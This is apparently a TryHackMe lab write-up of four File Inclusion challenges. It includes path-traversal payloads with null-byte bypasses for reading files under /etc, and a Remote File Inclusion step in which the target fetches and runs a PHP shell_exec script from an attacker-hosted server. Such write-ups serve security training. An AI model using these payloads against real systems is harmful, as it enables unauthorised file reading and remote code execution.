 # TryHackMe - File Inclusion Challenges Writeup:

## Introduction
This writeup documents my approach to capturing flags in the File Inclusion challenges, where I explored techniques for bypassing input sanitization and leveraging Local and Remote File Inclusion (LFI/RFI) vulnerabilities.

---

### **Flag 1**

**Objective:** Include `/etc/flag1` via a form method bypass.

**Solution:**  
The form’s default `GET` method blocked the file inclusion attempt. By changing the form method to `POST` or directly sending a crafted `POST` request, I set the `file` parameter to `/etc/flag1` and successfully retrieved the flag.

---

### **Flag 2**

**Objective:** Manipulate the `THM` cookie to access `/etc/flag2`.

**Solution:**  
1. Initially tried setting the cookie `THM=Admin` instead of `THM=Guest`, but this wasn’t sufficient.
2. Noticed that the file path was linked to the `THM` cookie value. I adjusted the cookie to `THM=../../../../etc/flag2`, but `.php` was automatically appended.
3. Bypassed this by injecting a null byte (`%00`) after the file path, resulting in `THM=../../../../etc/flag2%00`, which worked.

---

### **Flag 3**

**Objective:** Use a `POST` request to bypass input sanitization and include `/etc/flag3`.

**Solution:**  
1. The `GET` request had input sanitization that added slashes, so I switched to `POST`.
2. Manipulated the form action and method to allow both `.` and `/`.
3. Successfully used `file=../../../../etc/flag3%00` to retrieve the flag, with the null byte helping to bypass the appended `.php`.

---

### **Flag 4**

**Objective:** Perform Remote File Inclusion (RFI) to execute commands and retrieve the server’s hostname.

**Solution:**  
1. Created a PHP script (`cmd.txt`) to get the server’s hostname:
   ```php
   <?php
   // Execute the hostname command
   $hostname = shell_exec('hostname');
   echo "Hostname: " . trim($hostname);
   ?>
   ```
2. Hosted this file using Python’s HTTP server:
   ```bash
   python -m http.server
   ```
3. Included the file remotely via `/playground.php?file=http://YOURIP:PORT/cmd.txt`, successfully executing the `hostname` command and capturing Flag 4.
